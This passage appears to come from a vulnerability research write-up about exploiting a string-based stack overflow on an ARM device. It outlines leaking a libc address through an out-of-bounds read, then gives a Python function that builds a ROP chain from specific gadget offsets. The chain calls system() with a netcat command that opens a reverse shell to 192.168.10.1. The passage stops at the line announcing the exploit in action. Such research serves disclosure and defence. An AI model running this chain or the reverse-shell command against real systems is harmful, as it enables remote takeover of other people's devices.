 However, as this is a string-based stack overflow, we can't send in null terminators, so we can only use gadgets within the shared libraries - meaning we'd need a leak. Luckily, the last bug we found gives us that!

## Exploit

I put together an exploit that uses the OOB-Read to leak a libc pointer (which we can use to get the base address), then uses a ROP-chain to call **system("nc 192.168.10.1 123 -e ash")** to get a reverse shell on *192.168.10.1*. Here is the ROP-chain in Python:

```
-python
def generate_stack_overflow_ROP_payload(pad_count, ip, port, libc_base):
	system_libc = libc_base + 0x4b4fc
	exit_libc = libc_base + 0x46c30

	# ROP Chain for reverse shell
	payload = b'a' * pad_count

	# Do the stack overflow and execute arbitrary command
	payload += (libc_base + 0x4a5e0).to_bytes(4, byteorder='little') # pc

	# | 0x4a5e0 | ldmia sp!,{r3,pc} |
	payload += (libc_base + 0x313f8).to_bytes(4, byteorder='little') # r3 - copy r2 into r0
	payload += (libc_base + 0x32c24).to_bytes(4, byteorder='little') # pc

	# | 0x32c24 | add r2,sp,#0x3c | blx r3 |

	# | 0x313f8 | cpy r0,r2 | ldmia sp!,{r4,pc} |
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (system_libc).to_bytes(4, byteorder='little') # pc
	payload += b"Aa0Aa1Aa" # padding
	payload += (libc_base + 0x184f4).to_bytes(4, byteorder='little') # pc

	# | 0x184f4 | mov r0,#0x1 | ldmia sp!,{r4,pc} |
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (exit_libc).to_bytes(4, byteorder='little') # pc
	payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab" # padding
	payload += f"nc {ip} {port} -e ash #".encode() # command to execute as system
	
	return payload
```

And here is the exploit in action:
